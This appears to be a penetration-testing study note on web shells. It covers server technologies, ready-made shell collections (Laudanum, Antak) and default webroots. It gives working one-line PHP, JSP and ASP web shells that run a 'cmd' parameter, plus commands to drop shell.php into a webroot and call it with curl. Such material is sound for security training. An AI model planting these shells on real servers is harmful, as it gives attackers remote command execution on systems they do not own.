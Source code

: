 The final type of shell we have is a `Web Shell`. A `Web Shell` is typically a web script, i.e., `PHP` or `ASPX`, that accepts our command through HTTP request parameters such as `GET` or `POST` request parameters, executes our command, and prints its output back on the web page.

|Technology|File Extension|Language(s)|Most Common Server Platform (Real-World Usage)|
|---|---|---|---|
|**ASP**|`.asp`|VBScript, JScript|**Microsoft IIS** (versions 6–8 on legacy systems)|
|**ASP.NET (.aspx)**|`.aspx`|C#, VB.NET|**Microsoft IIS + .NET Framework / .NET Core**|
|**JSP**|`.jsp`|Java|**Apache Tomcat** (also: WildFly, GlassFish in enterprise)|
|**PHP**|`.php`|PHP|**Apache HTTP Server**, **Nginx**, sometimes **LiteSpeed**|
|**Node.js**|`.js` (server)|JavaScript (Node.js)|**Node.js runtime** (standalone), often behind **Nginx** or **Apache** reverse proxy|
#### Laudanum
Laudanum is a repository of ready-made files that can be used to inject onto a victim and receive back access via a reverse shell, includes injectable files for many different web application languages to include `asp, aspx, jsp, php,` and more. it  can be found in the `/usr/share/laudanum` directory.
```bash
/usr/share/laudanum/
#  asp   aspx   cfm   helpers   jsp   php   wordpress
```

#### Antak Webshell
Antak is a web shell built in ASP.Net included within the [Nishang project](https://github.com/samratashok/nishang). Nishang is an Offensive PowerShell toolset, he a web shell functions like a Powershell Console. However, it will execute each command as a new process. It can also execute scripts in memory and encode commands you send. As a web shell, Antak is a pretty powerful tool.
```bash
/usr/share/nishang/Antak-WebShell/antak.aspx
```

#### others 
```bash
/usr/share/webshells
#  asp   aspx   cfm   jsp   laudanum   perl   php
```
#### Writing a Web Shell

First of all, we need to write our web shell that would take our command through a `GET` request, execute it, and print its output back. A web shell script is typically a one-liner that is very short and can be memorized easily. The following are some common short web shell scripts for common web languages:

Code: php

```php
<?php system($_REQUEST["cmd"]); ?>
<?php system('id'); ?>
```
Code: jsp

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

Code: asp

```asp
<% eval request("cmd") %>
```

---

#### Uploading a Web Shell
|Web Server|Default Webroot|
|---|---|
|`Apache`|/var/www/html/|
|`Nginx`|/usr/local/nginx/html/|
|`IIS`|c:\inetpub\wwwroot\|
|`XAMPP`|C:\xampp\htdocs\|
```bash
#Create a webshell php file
echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php

#Execute a command on an uploaded webshell
curl http://SERVER_IP:PORT/shell.php?cmd=id
```

